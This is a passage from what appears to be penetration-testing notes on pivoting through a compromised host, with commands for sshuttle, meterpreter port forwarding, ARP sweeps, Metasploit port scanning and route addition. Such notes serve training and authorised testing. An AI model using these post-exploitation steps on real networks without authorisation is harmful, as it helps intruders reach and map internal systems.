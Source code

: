 I haven't used this, but it might work.

```text
sshuttle -r root@192.168.1.101 192.168.1.0/24
```

### Port forward with metasploit

We can also forward ports using metasploit. Say that the compromised machine is running services that are only accessible from within the network, from within that machine. To access that port we can do this in meterpreter:

```text
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.222
```

Now we can access this port on our machine locally like this.

```text
nc 127.0.0.1 3306
```

#### Ping-sweep the network

First we want to scan the network to see what devices we can target. In this example we already have a meterpreter shell on a windows machine with SYSTEM-privileges.

```text
meterpreter > run arp_scanner -r 192.168.1.0/24
```

This command will output all the devices on the netowork.

#### Scan each host

Now that we have a list of all available machines. We want to portscan them.

We will to that portscan through metasploit. Using this module:

```text
use auxiliary/scanner/portscan/tcp
```

If we run that module now it will only scan machines in the network we are already on. So first we need to connect us into the second network.

On the already pwn machine we do

```text
ipconfig
```

Now we add the second network as a new route in metasploit. First we background our session, and then do this:

```text
# the ip addres and the subnet mask, and then the meterpreter session
route add 192.168.1.101 255.255.255.0 1
```

